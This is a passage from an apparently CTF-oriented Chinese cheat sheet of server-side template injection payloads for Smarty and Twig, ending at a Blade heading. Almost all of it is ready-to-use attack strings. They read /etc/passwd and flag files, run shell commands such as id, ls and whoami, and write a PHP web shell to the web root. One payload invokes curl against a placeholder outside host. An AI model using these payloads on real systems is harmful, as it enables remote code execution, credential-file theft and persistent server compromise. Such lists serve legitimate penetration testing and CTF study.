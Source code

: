 ```
{self::getStreamVariable(“file:///etc/passwd”)}
{literal}alert('xss');{/literal}
{literal}<script language="php">phpinfo();</script>{/literal} PHP 5.x
{system("id")} 最简单,枯燥的一个
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
 
{if phpinfo()}{/if}
{if system('ls')}{/if}
{ readfile('/flag') }
{if show_source('/flag')}{/if}
{if system('cat ../../../flag')}{/if}
{php}echo `id`;{/php}
```
### Twig模板注入

#### 常见Twig模板Payload
```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter('cat /flag')}}
{{["id"]|map("system")|join(",")
{{["id", 0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0, 0]|reduce("system", "id")|join(",")}}
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{'/etc/passwd'|file_excerpt(-1,-1)}}
{{app.request.query.filter(0,'curl${IFS}x.x.x.x:8090',1024,{'options':'system'})}}
{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}

{{app.request.files.get(1).openFile.fread(99)}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

{{_self.env.enableDebug()}}{{_self.env.isDebug()}}

{{["id"]|map("system")|join(",")

{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}

{{["id",0]|sort("system")|join(",")}}

{{["id"]|filter("system")|join(",")}}

{{[0,0]|reduce("system","id")|join(",")}}

{{['cat /etc/passwd']|filter('system')}}
```
### blade模板注入
#### 简介
 Blade 模板代码示例：
 